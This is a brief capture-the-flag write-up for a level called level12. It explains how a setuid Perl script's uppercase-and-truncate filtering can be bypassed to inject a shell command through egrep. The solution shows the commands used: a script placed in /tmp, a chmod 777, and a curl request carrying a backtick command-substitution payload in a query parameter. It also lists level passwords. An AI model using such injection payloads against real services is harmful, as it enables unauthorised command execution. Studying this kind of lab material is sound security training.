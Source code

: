 # Solve Level12
pass : fa6v5ateaw21peobuub8ipe6s

## Description
- home
    - -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl

### level12.pl
- egrep can execute shell cmd
  - we have to pass through some obfuscation (regex) to inject code
    - first regex pass all char from a-z to A-Z
    - the second remove everything after a space char (\s)
      - * because /tmp is lowercase
      - GETFLAG is uppercase because of regex
- y is useless

## Solution
```bash
vi /tmp/MAJFILE #put the content of majfile.sh
chmod 777 /tmp/MAJFILE
curl localhost:4646?x=\`/*/GETFLAG\`
cat /tmp/newFile #let's go
```

- flag12 : 
- level13 : g1qKMiRpXf53AWhDaU7FEkczr


## Resolve problem

